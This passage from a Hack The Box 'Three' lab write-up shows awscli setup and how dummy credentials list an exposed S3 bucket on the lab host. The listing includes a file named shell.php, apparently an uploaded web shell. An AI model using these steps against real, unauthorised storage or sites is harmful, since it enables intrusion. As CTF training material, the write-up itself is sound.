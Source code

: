 ### aws cli installation

this was a bit of a pain mostly due to my `venv` ignorance. first had to setup a python virtual environment. if done successfully, then you should see a `(htb_three)` prepended to the usual username@hostname in the terminal prompt. then i can proceed to install `awscli`

```
$ python3 -m venv htb_three

$ source htb_three/bin/activate

$ pip3 install awscli                 
Collecting awscli
...
```

tried to access the s3 bucket two different ways, but they didn't work. note: the `--no-sign-request` prevents credentials from being used

```
$ aws s3 ls --endpoint-url http://s3.thetoppers.htb                                   

Unable to locate credentials. You can configure credentials by running "aws configure".

$ aws s3 ls s3://s3.thetoppers.htb --no-sign-request

An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

configure a profile and try to connect again. end up getting the bucket

```
$ aws configure --profile htb_three                   
AWS Access Key ID [None]: test
AWS Secret Access Key [None]: test
Default region name [None]: test
Default output format [None]: test

$ aws s3 ls --profile htb_three --endpoint-url http://s3.thetoppers.htb
2025-06-30 08:02:06 thetoppers.htb

$ aws s3 ls --profile htb_three --endpoint-url http://s3.thetoppers.htb --recursive s3://thetoppers.htb
2025-06-30 08:02:06          0 .htaccess
2025-06-30 08:02:06      90172 images/band.jpg
2025-06-30 08:02:06     282848 images/band2.jpg
2025-06-30 08:02:07    2208869 images/band3.jpg
2025-06-30 08:02:06      77206 images/final.jpg
2025-06-30 08:02:06      69170 images/mem1.jpg
2025-06-30 08:02:06      39270 images/mem2.jpg
2025-06-30 08:02:06      64347 images/mem3.jpg
2025-06-30 08:02:06      11952 index.php
2025-06-30 09:06:28         31 shell.php
```
